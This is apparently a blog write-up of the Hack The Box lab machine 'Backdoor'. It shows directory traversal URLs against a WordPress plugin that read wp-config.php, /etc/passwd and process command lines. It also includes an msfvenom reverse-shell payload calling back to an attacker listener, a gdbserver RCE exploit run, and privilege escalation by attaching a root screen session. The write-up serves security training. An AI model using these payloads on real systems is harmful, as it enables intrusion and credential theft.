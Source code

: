 ```yaml
---
layout: post
title: "HTB: Backdoor"
author: Andrew Cherney
date: 2023-02-16 17:35:05
tags: easy-box htb linux webapp wordpress plugins 
icon: "assets/icons/backdoor.png"
post_description: "This box involves quite a bit of enumeration and creativity to solve for an easy box. First you need to identify the plugins of the wordpress site, then identify the vulnerable one. After that the processes are to be read and scoured for a foothold after discovering a vulnerable service on port 1337. Root can then be obtained by attaching a detached root screen."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nmap -Pn -sC 10.10.11.125
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 17:44 CST
Nmap scan report for 10.10.11.125
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1

Nmap done: 1 IP address (1 host up) scanned in 19.01 seconds
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/backdoor/front_page" alt="front_page" ext="png" trunc=500 %}

There is a basic wordpress site with nothing immediately out of the ordinary. I toss out a dirb scan but only the usual files and directories reveal themselves. A good place from here is to look at what plugins (if any) are being run. 

<h2>Wordpress Plugins</h2>

![plugin screen](/img/backdoor/wp_content.png)

<h3>ebook-download</h3>

Well there is something here. I throw out a search on exploit-db and would you believe I find [this directory traversal vulnerability](https://www.exploit-db.com/exploits/39575). There is a php file named **filedownload.php** that I can use **../..** to travel up directories and download anything that www-data can access. Obvious next step here is to grab **wp-config.php** and look for hard coded passwords, then read **/etc/passwd**. 

```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
```

wp-config contained:

```
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```

**/etc/passwd** for a potential user contained:

```
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

I suppose I can try to login, but that password does not work for user. Additionally those names do not work with the password to login to Wordpress. Okay, so my guess here is the SQL service that these credentials work with is exposed and didn't trip in the initial scan.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nmap -Pn -sC 10.10.11.125 -p 1337
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 19:06 CST
Nmap scan report for 10.10.11.125
Host is up (0.048s latency).

PORT     STATE SERVICE
1337/tcp open  waste
```

<h2>Process Reading</h2>

Well that's not SQL, probably useful though. From here I have the ability to read files accessible to www-data and I need to use it to gain more knowledge somehow. The best thing I could think of is **/proc** contains all running processes and I can read <code>/proc/#/cmdline</code> to see what commands or services are active. I'll boot up burpsuite and fuzz the process numbers and go from there. 

```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/#/cmdline
```

I will alternatively write a bash script since it will be quicker and I can use grep to sort out results.

```
#!/bin/bash

for i in {1..2000}
do
curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$i/cmdline" > ./prc/$i
done
```

<h1>User as user</h1>

<h2>gdbserver RCE</h2>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor/prc]
└──╼ $grep -iR --text "1337"
853:../../../../../../proc/853/cmdline../../../../../../proc/853/cmdline../../../../../../proc/853/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```

That service on port 1337 is gdbserver. Okay ... if I search that service on exploit-db and find an RCE script of a specific version. I need to make a payload with msfvenom, then run the python script and set up a listener. Let's give this a shot. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=7777 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $python3 gdbexploit.py 10.10.11.125:1337 rev.bin 
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.125] 44424
whoami
user
cat user.txt
de65d53143451-------------------
```

<h1>Root</h1>

<h2>screen</h2>

While I was scouring through the processes I did come across one for the command screen. 

```bash
ps -aux | grep screen
root         857  0.0  0.0   2608  1836 ?        Ss   Feb16   0:05 /bin/sh -c while true;do sleep
 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

This seems to imply there is a root screen that is currently detached. To gain root I need to create a terminal, and then export a TERM for screen to default to, then attach the root session. It took a little troubleshooting but <code>script /dev/null</code> fixes an error that screen sometimes has.

```bash
script /dev/null                                                                
Script started, file is /dev/null                                               
$ export TERM=xterm                                                             
export TERM=xterm                                                               
$ screen -r root/root  
root@Backdoor:~# cat /root/root.txt                                             
cat /root/root.txt                                                              
fdb2aa71188f4-------------------
```

